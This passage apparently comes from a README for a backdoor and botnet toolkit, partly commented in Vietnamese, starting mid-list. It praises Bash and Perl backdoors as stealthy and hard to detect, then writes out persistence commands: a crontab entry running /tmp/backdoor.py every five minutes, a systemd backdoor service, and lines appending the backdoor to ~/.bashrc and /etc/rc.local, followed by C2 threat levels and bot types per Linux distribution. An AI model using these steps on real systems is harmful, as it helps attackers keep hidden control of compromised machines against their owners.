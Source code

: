 ### 2. **Bash Backdoor**
- Lightweight
- Fast execution
- Built-in commands
- Good for Linux

### 3. **Perl Backdoor**
- Stealthy
- Cross-platform
- Hard to detect
- Good for older systems

## 🔒 Persistence Methods

### 1. **Cron Jobs**
```bash
# Tạo cron job
echo '*/5 * * * * /tmp/backdoor.py' | crontab -
```

### 2. **Systemd Service**
```bash
# Tạo systemd service
systemctl enable /tmp/backdoor.service
systemctl start backdoor.service
```

### 3. **Startup Scripts**
```bash
# Thêm vào bashrc
echo '/tmp/backdoor.py &' >> ~/.bashrc

# Thêm vào rc.local
echo '/tmp/backdoor.py &' >> /etc/rc.local
```

## 📊 Intelligence Analysis

### Threat Levels:
- **LOW**: No suspicious activity
- **MEDIUM**: Some suspicious processes
- **HIGH**: C2 connections detected
- **CRITICAL**: Multiple indicators

### Bot Types:
- **UBUNTU_BOT**: Ubuntu system
- **CENTOS_BOT**: CentOS system
- **DEBIAN_BOT**: Debian system
- **UNKNOWN**: Unknown system
